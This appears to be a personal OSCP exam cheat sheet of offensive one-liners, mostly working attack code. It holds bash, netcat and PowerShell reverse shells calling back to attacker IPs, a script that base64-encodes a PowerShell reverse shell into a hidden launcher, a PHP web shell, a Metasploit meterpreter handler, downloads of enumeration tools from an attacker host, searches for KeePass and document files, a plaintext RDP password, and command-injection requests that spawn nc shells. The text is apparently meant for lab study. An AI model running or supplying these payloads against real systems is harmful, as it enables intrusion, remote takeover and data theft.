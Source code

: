 - SSH connection to OSCP machines
```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@192.168.50.52
```
- Bash One-Liners
```
	for ip in $(cat list.txt); do host $ip.megacorpone.com; done
```
- SecLists Project - collection of wordlists
- PHP command execution
```
<?php echo system($_GET['cmd']); ?>
```
- One liner reverse shell
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F4444%200%3E%261%22


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f

```

- powershell one liner reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.230',4444);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0}while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex '. { $data } 2>&' | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
![[rev.ps1]]

Base64 encoding for powershell
```
$MyBase6 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$client = New-Object System.Net.Sockets.TCPClient("192.168.45.",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' ))

$Bytes=[Convert]::FromBase64String($Text)
[System.Text.Encoding]::Unicode.GetString($Bytes)
```

msfconsole 

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"

```
find using powershell

Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C: -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

download powershell

```
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://192.168.45.204:9090/Seatbelt.exe -Outfile seat.exe
```

network scanning
for i in $(seq 1 254); do nc -zv -w 1 172.16.203.$i 445; done

xfreerdp /u:justin /p:_SuperS3cure1337#_ /v:192.168.203.202

curl -X POST http://192.168.174.134:13337/update -H "Content-Type: application/json" -H "X-Forwarded-For: localhost" --data '{"user":"clumsyadmin","url":"http://192.168.45.230:8000/mint"}'

```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

```

php reverse shell

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php


```
import os
os.popen("id").read()
```

### Upgrade shell

python -c 'import pty; pty.spawn("/bin/sh")'

curl -X  post --data "code=os.system('nc -e /bin/bash 192.168.45.162 18000')" http://192.168.175.117:50000/verify

```
%0Anc%20192.168.118.3%204444%20-e%20%2Fbin%2Fb